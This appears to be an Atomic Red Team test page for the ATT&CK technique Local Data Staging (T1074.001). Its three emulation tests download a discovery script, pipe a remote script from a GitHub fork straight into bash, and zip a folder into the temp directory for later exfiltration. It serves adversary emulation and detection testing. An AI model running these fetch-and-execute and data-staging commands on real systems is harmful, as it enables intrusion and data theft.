 # T1074.001 - Local Data Staging
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1074.001)
<blockquote>Adversaries may stage collected data in a central location or directory on the local system prior to Exfiltration. Data may be kept in separate files or combined into one file through techniques such as [Archive Collected Data](https://attack.mitre.org/techniques/T1560). Interactive command shells may be used, and common functionality within [cmd](https://attack.mitre.org/software/S0106) and bash may be used to copy data into a staging location.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Stage data from Discovery.bat](#atomic-test-1---stage-data-from-discoverybat)

- [Atomic Test #2 - Stage data from Discovery.sh](#atomic-test-2---stage-data-from-discoverysh)

- [Atomic Test #3 - Zip a Folder with PowerShell for Staging in Temp](#atomic-test-3---zip-a-folder-with-powershell-for-staging-in-temp)


<br/>

## Atomic Test #1 - Stage data from Discovery.bat
Utilize powershell to download discovery.bat and save to a local file. This emulates an attacker downloading data collection tools onto the host. Upon execution,
verify that the file is saved in the temp directory.

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| output_file | Location to save downloaded discovery.bat file | Path | $env:TEMP&#92;discovery.bat|


#### Attack Commands: Run with `powershell`! 


```powershell
Invoke-WebRequest "https://raw.githubusercontent.com/theclintox/atomic-red-team/master/atomics/T1074.001/src/Discovery.bat" -OutFile #{output_file}
```

#### Cleanup Commands:
```powershell
Remove-Item -Force #{output_file} -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #2 - Stage data from Discovery.sh
Utilize curl to download discovery.sh and execute a basic information gathering shell script

**Supported Platforms:** Linux, macOS




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| output_file | Location to save downloaded discovery.bat file | Path | /tmp/T1074.001_discovery.log|


#### Attack Commands: Run with `bash`! 


```bash
curl -s https://raw.githubusercontent.com/theclintox/atomic-red-team/master/atomics/T1074.001/src/Discovery.sh | bash -s > #{output_file}
```






<br/>
<br/>

## Atomic Test #3 - Zip a Folder with PowerShell for Staging in Temp
Use living off the land tools to zip a file and stage it in the Windows temporary folder for later exfiltration. Upon execution, Verify that a zipped folder named Folder_to_zip.zip
was placed in the temp directory.

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| output_file | Location to save zipped file or folder | Path | $env:TEMP&#92;Folder_to_zip.zip|
| input_file | Location of file or folder to zip | Path | PathToAtomicsFolder&#92;T1074.001&#92;bin&#92;Folder_to_zip|


#### Attack Commands: Run with `powershell`! 


```powershell
Compress-Archive -Path #{input_file} -DestinationPath #{output_file} -Force
```

#### Cleanup Commands:
```powershell
Remove-Item -Path #{output_file} -ErrorAction Ignore
```





<br/>
